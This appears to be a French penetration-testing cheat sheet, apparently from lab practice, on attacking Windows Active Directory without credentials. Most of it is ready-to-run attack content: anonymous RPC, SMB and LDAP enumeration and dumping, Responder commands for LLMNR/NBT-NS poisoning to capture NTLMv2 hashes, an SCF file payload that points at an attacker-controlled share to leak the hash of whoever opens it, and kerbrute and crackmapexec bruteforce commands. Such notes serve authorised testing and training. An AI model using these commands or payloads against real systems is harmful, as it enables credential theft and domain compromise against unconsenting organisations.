 # Attaques Windows sans identifiants

### 1. Exploitation du null bind

> Exploitation des services autorisants la connexion sans identifiants
>
> Objectifs : récupérer des informations

#### 1.1. Accès RPC anonyme

> Connexion anonyme à l'annuaire de l'AD.
>
> Objectifs : par exemple, consulter la liste des utilisateurs du domaine.

``` bash
$ rpcclient -p <PORT> -U "" -N <IP>
```

Voir [rpcclient](./rpcclient.md) pour consulter les actions réalisables.

#### 1.2. Accès SMB anonyme

> Objectifs : Accéder à un share SMB sans idenfiants

```bash
$ smbclient -L '\\IP' -U ''%''

$ crackmapexec smb <IP> -u '' -p '' --shares
```

#### 1.3. Accès LDAP anonyme (LDAP anonymous bind)

> Objectifs : lire des parties du LDAP

```bash
# Avec nmap
$ nmap -n -sV --script "ldap* and not brute" <IP_LDAP>

# Avec python
$ python3          
Python 3.9.9 (main, Nov 16 2021, 10:24:31) 
[GCC 11.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import ldap3
>>> server = ldap3.Server('10.10.11.129', get_info = ldap3.ALL, port=389)
>>> connection = ldap3.Connection(server)
>>> connection.bind()
>>> connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=*))', search_scope='SUBTREE', attributes='*')
# Si false, pas exploitable
>>> connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=person))', search_scope='SUBTREE', attributes='userPassword')
# Si false, pas exploitable
```

Si exploitable, dump l'intégralité du LDAP :

```bash
$ ldapdomaindump <IP_LDAP>
[*] Connecting as anonymous user, dumping will probably fail. Consider specifying a username/password to login with
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```



### 2. LLMNR/NBT-NS (MITM)

> Attaque Man-In-The-Middle, consistant à intercepter se faire passer pour la ressource demandée afin que la machine s'authentifie sur nous.
>
> LLMNR : Protocole de résolution de nom, utilisé pour chercher un FQDN sur le réseau afin de s'y connecter. 
>
> Ordre de recherche DNS par la machine : base locale (/etc/hosts) > LLMNR > serveur DNS (/etc/resolv.conf).
>
> Objectifs : récupérer le hash Net-NTLMv2 pour le craquer et obtenir le mot de passe de l'utilisateur (pas de pass-the-hash).

```bash
$ sudo responder -I eth0 -wFv
```



### 3. Upload de fichier SCF

> Dans le cas où un upload de fichier se fait sur un partage SMB et qu'une personne va regarder les fichiers uploadés
>
> Objectifs : Récupérer le hash NTLMv2 de l'utilisateur consultant le fichier uploadé

```bash
# payload.scf à upload
[Shell]
Command=2
IconFile=\\<IP_HOTE>\share\test.ico
[TaskBar]
Command=ToggleDesktop

# récupération du hash sur l'Hôte
$ sudo responder -wrf --lm -v -I tun0
```



### 4. Bruteforce

> Quand il n'y a plus rien d'autre à faire
>
> Objectif : obtenir un compte du domaine

- **Bruteforce d'un nom d'utilisateur :**

```bash
# Bruteforce pour obtenir un nom d'utilisateur valide auprès du ldap
$ nmap -n -sV --script ldap-brute -p 389,636 --script-args userdb=<USER_LIST> --script-args ldap.base='"dc=search,dc=htb"' <IP_LDAP>

# Bruteforce pour obtenir un nom d'utilisateur valide en passant par le protocole Kerberos (pré-authentification)
$ kerbrute userenum -d <DOMAIN.COM> <USERNAME_WORDLIST> --dc <DOMAIN_CONTROLLER>
```

- **Bruteforce d'un mot de passe :**

```bash
# Bruteforce d'un mot de passe d'un utilisateur connu via le protocole Kerberos (pré-authentification)
$ kerbrute bruteuser --dc <DOMAIN_CONTROLLER> -d <DOMAIN.COM> <PASSWORD_WORDLIST> <USER_VALIDE>    

# Bruteforce d'un mot de passe d'un utilisateur connu sur un partage SMB
$ crackmapexec smb <IP_DC> -u <USERS_VALIDES_WORDLIST> -p <PASSWORD_WORDLIST> --continue-on-success (pour parcourir toute la liste des utilisateurs fournies)
```

